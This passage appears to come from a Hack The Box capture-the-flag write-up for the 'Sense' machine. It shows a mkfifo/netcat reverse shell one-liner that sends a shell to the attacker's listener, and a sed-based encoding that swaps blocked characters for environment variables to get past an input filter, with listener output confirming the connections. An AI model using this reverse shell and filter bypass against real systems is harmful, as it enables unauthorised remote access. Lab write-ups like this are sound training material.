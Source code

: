 ```
root@kali:/# nc -nlvp 443
listening on [any] 443 ...
```
It doesn't work, I tried changing the -c parameter of nectat for -e but it doesn't work either, so I'll do it with the old version of nectat, it would be like this: ```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.2 443 >/tmp/f```

All this can be seen in the repository I named above.

To send us this reverse shell we will have to change more characters, so with ```echo "test+next+badchar+&"|nc 10.10.14.6``` I try to find out which characters are blocking me from this reverse shell.

It accepts all possible badchars except the & character, so we only have to create an environment variable for it. Use the same methodology as with the other badchars and we are ready to start the reverse shell.

```
root@kali:/# nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.60] 12462
;

root@kali:/#nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.60] 27057
|

root@kali:/# nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.60] 19381
>

root@kali:/# nc -nlvp 443
listening on [any] 443 ...
```

```
root@kali:/# echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.6 443 >/tmp/f" | tr ' ' '+' | sed 's/\//${bar}/g' | sed 's/-/${guion}/g' | sed 's/&/${amp}/g'

rm+${bar}tmp${bar}f;mkfifo+${bar}tmp${bar}f;cat+${bar}tmp${bar}f|${bar}bin${bar}sh+${guion}i+2>${amp}1|nc+10.10.14.6+443+>${bar}tmp${bar}f
```

![](/assets/images/htb-writeup-sense/succesful-rshell.png)
